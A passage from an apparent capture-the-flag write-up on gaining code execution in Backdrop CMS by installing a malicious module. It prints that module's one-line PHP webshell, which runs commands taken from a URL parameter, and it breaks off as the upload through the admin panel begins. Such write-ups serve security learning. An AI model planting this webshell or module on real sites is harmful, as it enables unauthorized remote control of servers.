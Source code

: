 

#### Exploits

Searching for Backdrop CMS exploits, [this
repo](https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS) comes
up. It describes an attack path using a cross-site request forgery
(CSRF) to get an admin to install a malicious plugin, which gives a
webshell. I don't need the CSRF, as I can already log into the admin
panel. So I'll just use the plugin.

I'll download `reference.tar` from the [release
page](https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS/releases/tag/backdrop)
and take a look at it:

![](/img/image-20221129141754028.png)

It has the default files similar to what's in this [example
repo](https://github.com/backdrop-contrib/module_template), but it also
has a `shell.php`. The idea is that when the module is installed, these
files are all decompressed into a location I can know and access.

`shell.php` has a very simple PHP webshell:



    <?php system($_GET['cmd']);?>



#### Upload

I'll upload the module by going to Functionality \> Install New Modules
in the top menu:

![](/img/image-20221129142042584.png)
